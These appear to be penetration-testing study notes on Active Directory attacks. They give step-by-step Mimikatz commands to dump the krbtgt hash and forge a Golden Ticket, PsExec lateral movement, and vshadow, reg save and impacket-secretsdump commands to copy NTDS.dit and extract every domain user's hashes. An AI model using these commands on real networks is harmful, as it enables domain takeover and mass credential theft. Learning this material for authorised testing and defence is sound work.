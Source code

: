 ## Golden Ticket
Golden Tickets give us permission to access the entire domain’s resources

Background:
- KDC encrypts TGTs with the NTLM password hash of a domain user called krbtgt
- If we are able to get our hands on the krbtgt password hash, we could create our own self-made custom TGTs, also known as golden tickets.
- the krbtgt account password is not automatically changed 👍

> Prerequisites:
> - obtaining NTLM hash of krbtgt: access to Domain Admin's group account, or have compromised the domain controller itself
> - forging golden ticket and injecting into memory: none (can even be performed on non-domain computer)

1. Connect and log in to DC via rdp
2. Run Mimikatz
3. Dump NTLM hash of krbtgt:
   `privilege::debug`
   `lsadump::lsa /patch`
4. Connect to a computer (could be domain-joined or not)
5. Obtain domain SID:
   `whoami /user`
6. Run Mimikatz
7. Delete any existing Kerberos tickets:
   `kerberos::purge`
7. Create golden ticket:
   `kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270- 658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt`
	- `/user:jen`: current user
	- `/domain:corp.com`: domain name
	- `/sid:S-1-5-21-1987370270- 658905905-1781884369`: domain SID
	- `/krbtgt:1693c6cefafffc7af11ef34d1c788f47`: NTLM hash of krbtgt
	- In the created ticket, the user ID is set to 500 by default (RID of built-in administrator for domain), and the groups ID consist of the most privileged groups in Active Directory, including the Domain Admins group
8. Launch new command prompt:
   `misc::cmd`
9. Perform the action (e.g. lateral movement):
   `PsExec.exe \\dc1 cmd.exe`

> Note that by creating our own TGT and then using PsExec, we are performing the overpass the hash attack by leveraging Kerberos authentication as we discussed earlier in this Module. If we were to connect PsExec to the IP address of the domain controller instead of the hostname, we would instead force the use of NTLM authentication and access would still be blocked

## Shadow Copies

Shadow copy:
- also known as Volume Shadow Service (VSS)
- a Microsoft backup technology that allows creation of snapshots of files or entire volumes. 
- To manage volume shadow copies, the Microsoft signed binary vshadow.exe is offered as part of the Windows SDK. 
- As domain admins, we have the ability to abuse the vshadow utility to create a Shadow Copy that will allow us to extract the Active Directory Database NTDS.dit database file. 
- Once we’ve obtained a copy of said database, we can extract every user credential offline on our local Kali machine

> Prerequisite: domain admin

1. Connect as a domain admin user to the domain controller
2. launch from an elevated prompt the vshadow utility:
   `vshadow.exe -nw -p C:`
	- `-nw`: disable writers (speeds up backup creation)
	- `-p C:`: store copy on disk C:
3. Take note of the shadow copy device name from the output of above
4. Copy the shadow copy to the root folder:
   `copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak`
	- specify the shadow copy device name and append the full ntds.dit path (`\windows\ntds\ntds.dit`)
5. To correctly extract the content of ntds.dit, we need to save the SYSTEM hive from the Windows registry:
   `reg.exe save hklm\system c:\system.bak`
6. Transfer the two bak files to our Kali
7. Extract the credentials using impacket:
   `impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL`
	- `LOCAL`: parse the files locally
8. Obtain the NTLM hashes and Kerberos keys of all AD users from the output, which can now be further cracked or used as-is through pass-the-hash attacks